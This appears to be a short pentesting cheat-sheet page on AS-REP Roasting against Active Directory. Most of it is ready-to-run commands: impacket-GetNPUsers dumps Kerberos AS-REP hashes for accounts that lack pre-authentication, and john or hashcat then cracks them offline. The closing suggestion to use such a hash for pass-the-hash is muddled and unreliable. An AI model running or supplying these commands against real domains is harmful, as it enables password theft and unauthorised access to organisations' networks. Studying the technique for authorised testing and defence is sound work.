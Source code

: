 ```yaml
---
title: AS-REP Roasting
description: AS-REP Roasting is a technique that retrieves password hashes that are not required Kerberos preauth in Active Directory.
tags:
    - Active Directory
    - Windows
refs:
date: 2022-12-30
draft: false
---
```


## Enumeration

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Find a password hashes of given users
impacket-GetNPUsers -dc-ip <target-ip> example.local/ -no-pass -usersfile users.txt

# Find a password hash of given user
impacket-GetNPUsers -dc-ip <target-ip> example.local/<username> -no-pass -format hashcat 
```

If we find a password hash, crack it.

```sh
john --format=krb5asrep --wordlist=wordlist.txt hash.txt
# or
hashcat -m 18200 -a 0  hash.txt wordlist.txt
```

If we find a password hash, crack it or use it to login with pass the hash.